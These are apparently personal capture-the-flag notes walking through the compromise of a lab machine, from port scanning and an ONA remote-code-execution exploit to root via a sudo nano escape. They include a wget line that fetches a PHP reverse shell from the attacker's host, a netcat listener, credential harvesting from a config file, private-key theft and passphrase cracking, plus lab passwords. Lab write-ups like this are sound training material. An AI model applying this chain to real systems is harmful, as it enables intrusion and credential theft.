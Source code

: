 # user
- Scan ports with nc -> http and ssh ports open
- /music yields a pre-prod page
	- contact page
	- login / create account leads to an ONA dashboard
- /artwork yields a different company's site
	- similar to the music guy
	- rabbit hole with nothing useful
- Can use RCE exploit from internet to gain reverse sorta shell from ONA (ona specific exploit)
- Can use this half-shell to escalate to a full shell
- Friend I consulted's go-to is that most boxes have wget, curl or netcat -> can transfer file rom http to server
	- python SimpleHTTPServer
	- netcat 4444 -> listen for requests
	- make php script correct ports
		- mkdir www
		- cd www
		- cp path/to/php/rev/shell
		- python -m SimpleHTTPServer
		- wget http://your.ip.address:portrev/_shell.php (on the half rev. shell)
- Now you a full reverse shell
- Python3 spawn pty bash for better experience
- Database config file found in local/config with DB user and pass
- That password allows access to jimmy thru ssh
- Pass for jimmy is n1nj4W4rri0R!
- Use sftp to transfer linpeas (escalation scanner) onto jimmy's home dir
- ./linpeas.sh > output.txt and then less -R output.txt to see linpeas output
- /var/www/internal has really interesting writeable files that seem to allow access into Joanna's id_rsa
- ssh tunnel local forward the contents of that folder so that it's accessible to web
    - access w/ ssh openadmin -> localhost:2331/index.php
- Edit php to cat out joanna's private key
- Crack keyphrase using ssh2john -> john
- Bam, ssh into the target as joanna with new key (keyphrase is bloodninjas)
- User pwned
 
# root
- sudo -l 
- Can run nano on /opt/priv with nopasswd
- Execute a shell from within nano using a GTFOBins as root
- Root pwned
